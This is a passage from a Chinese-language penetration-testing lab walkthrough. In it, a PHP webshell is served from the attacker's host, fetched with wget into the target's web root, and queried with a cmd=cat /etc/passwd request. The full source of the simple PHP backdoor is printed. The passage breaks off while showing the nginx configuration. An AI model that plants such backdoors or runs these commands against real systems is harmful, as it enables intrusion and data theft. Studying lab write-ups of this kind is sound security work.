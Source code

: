 ```bash
daniel@soul:~$ echo $0
-rbash
```

### web 目录可控

```bash
┌─[randark@parrot]─[/usr/share/webshells/php]
└──╼ $ python-server 80
......
drwxr-xr-x 1 root root   64  1 月 22 日 03:13 findsocket
-rw-r--r-- 1 root root 2.8K 2021 年 11 月 21 日 php-backdoor.php
-rwxr-xr-x 1 root root 5.4K 2021 年 11 月 21 日 php-reverse-shell.php
-rw-r--r-- 1 root root  14K 2021 年 11 月 21 日 qsd-php-backdoor.php
-rw-r--r-- 1 root root  328 2021 年 11 月 21 日 simple-backdoor.php
......
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.56.115 - - [18/Feb/2024 23:30:13] "GET /simple-backdoor.php HTTP/1.1" 200 -

daniel@soul:~$ wget 192.168.56.102/simple-backdoor.php
daniel@soul:~$ mv simple-backdoor.php /var/www/html
```

文件成功上传，但是并没有被解析

```bash
┌─[randark@parrot]─[/usr/share/webshells/php]
└──╼ $ curl 192.168.56.115/simple-backdoor.php?cmd=cat+/etc/passwd
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->
```

## 分析 nginx 配置

查看 nginx 的配置文件

```conf
user www-data;
worker_processes auto;
pid /run/nginx.pid;
include /etc/nginx/modules-enabled/*.conf;

events {
        worker_connections 768;
        # multi_accept on;
}

http {
        sendfile on;
        tcp_nopush on;
```